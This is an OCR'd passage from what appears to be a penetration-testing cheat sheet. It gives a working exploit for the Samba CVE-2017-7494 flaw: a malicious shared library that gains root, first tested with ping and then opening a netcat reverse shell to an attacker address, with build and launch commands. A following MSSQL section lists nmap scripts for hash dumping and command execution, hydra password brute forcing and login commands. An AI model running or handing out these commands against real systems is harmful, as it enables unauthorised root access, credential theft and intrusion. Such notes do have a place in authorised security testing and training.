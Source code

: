 #include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
# Build
gcc -o test.so -shared poc.c -fPIC
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
If you reiceve 3 pings on your listener then the exploit works. Now let’s get a shell :

#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
# Build
gcc -o test.so -shared poc.c -fPIC
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
MSSQL - 1433
Get information
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
Brute force
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
Having credentials
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;
